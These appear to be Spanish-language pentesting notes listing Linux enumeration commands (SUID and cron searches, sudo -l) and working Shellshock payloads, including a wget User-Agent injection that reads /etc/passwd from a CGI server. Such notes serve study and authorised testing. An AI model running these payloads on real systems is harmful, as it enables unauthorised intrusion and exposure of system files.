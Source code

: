 # Local Enumeration

## Network Enumeration

```powershell
ifconfig #Lista las interfaces
route -n #Lista las iproutes
traceroute -n <IP> #Para saber cuantos saltos hay entre una maquina a otra
cat /etc/resolv.conf #Lista las DNS
arp-en #ARP cache
netstat -auntp #Lista las conecciones TCP/UDP
cat /proc/net/tcp 
cat /proc/net/udp
ss -twurp #Lista conecciones activas TCP/UDP Ports/Conecctions
id
uname -a
grep $user /etc/passwd
last log
w #Quien está actualmente conectado al sistema 
last
sudo -l
ls -als /root/ #Lista el home directory de root
echo $PATH
cat /etc/crontab && ls -als /etc/cron* #lista las cron jobs
find /etc/cron* -type f -perm -o+w -exec ls -l {} \; #Encuentra las cron jobs world-writeable
ps auxwww 
ps -u root
find / -perm -4000 -type f 2>/dev/null
find -uid 0 -perm -4000 -type f 2>/dev/null
lsof -n

```

# Exploitation over the Network

## Shellshock 

Para entenderlo tomaremos un metodo para determinar si el sistema es vulnerable.
Cuando ejecutamos este comando en un sistema vulnerable nos deberia imprimir "vulnerable".
```
env x='() { :;}; echo vulnerable' bash -c "echo es una prueba"
```

Tambien lo podemos encontrar en algunos servidores web, interceptamos la peticion que normalmente termina en archivos ***.cgi***  
`"User-Agent: () {:;}; /bin/eject"`
`curl -H "User-Agent: () {:;}; /bin/eject" http://example.com
`
`./dirsearch.py -u http://IP/ -e cgi -r`
`wget -U "() { foo;};echo \"Content-type: text/plain\"; echo; echo; /bin/cat /etc/passwd" http://IP/cgi-bin/login.cgi && cat login.cgi`
